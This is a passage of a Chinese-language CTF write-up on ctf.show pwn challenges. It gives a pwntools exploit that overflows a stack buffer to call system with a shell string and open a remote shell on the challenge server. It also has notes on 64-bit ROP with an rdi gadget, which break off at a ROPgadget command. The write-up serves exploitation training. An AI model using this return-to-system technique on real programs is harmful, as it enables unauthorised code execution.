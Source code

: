 再找到个_system函数地址就好

而hint函数中，就调用了system函数

那么直接用这个里的system就可以提权成功

exp：

```python
from pwn import *
sh=remote("pwn.challenge.ctf.show",28129)
system=0x080483D0  #483D0是plt表里的system，如果换用text段的system就不需要再发送'aaaa'
bin=0x080487BA
payload=b'a'*(0x12+4)+p32(system)+b'aaaa'+p32(bin)
sh.sendline(payload)
sh.interactive()
```





## pwn42

64位

和上面类似的操作

main函数查到buf到栈底的位置

0xA+8

找到sh位置

0400872

找到system函数位置

0400560

由于是64位程序

所以又出现pwn40的一个考点

64位的传参和32位不同

64位会先传入寄存器，共八个

而传完才会传入栈中

所以需要先拿到第一个参数寄存器rdi的位置

由于需要将字符"sh"返回给调用函数

所以还需要找到ret指令的位置

所以使用ROPgadget

通过指令

```C
ROPgadget --binary pwn42
```
